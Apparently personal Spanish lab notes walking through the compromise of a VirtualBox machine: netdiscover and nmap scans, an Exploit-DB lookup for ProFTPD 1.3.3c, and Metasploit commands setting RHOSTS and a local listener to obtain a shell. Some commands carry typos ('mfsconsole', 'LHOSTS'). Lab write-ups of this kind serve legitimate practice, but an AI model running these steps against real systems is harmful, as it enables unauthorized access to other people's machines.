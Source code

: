 # Instalar maquina poner en modo puente

## Buscar la ip

```bash
sudo netdiscover -r 10.0.0.0/16
```

10.0.4.39       08:00:27:9b:76:e6     39    2340  PCS Systemtechnik GmbH

Vemos las ip

```bash
sudo nmap 10.0.4.39
nmap -Pn -sV 10.0.4.39
```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:9B:76:E6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

## Buscamos vulnerabilidades que tiene los servicios

- Exploit database
- Google
- Chat gpt


En Exploit database introducimos el servicio de ProFTPD 1.3.3c, nos dice que hay disponible un metaexploit.

## Ejecutar el metaexploit

- Abrir la consola mfsconsole

```bash
 sudo mfsconsole

```

- Buscar exploit que vamos a usar

```bash
 search ProFTPD 1.3.3c
```

- Seleccionamos el payloads que vamos a usas

```bash
 show payload
```
PONEMOS ES QUE NOSOTROS QUERAMOS O MÁS NOS GUSTE

- Una vez seleccionado ponemos los parametros que necesitamos

```bash
 show options
```

```bash
 set RHOSTS 10.0.4.39
 set LHOSTS "MI IP"
```

- Ejecutar

```bash
 run
```

- Ya se levantaria un shell para acceder a la maquina
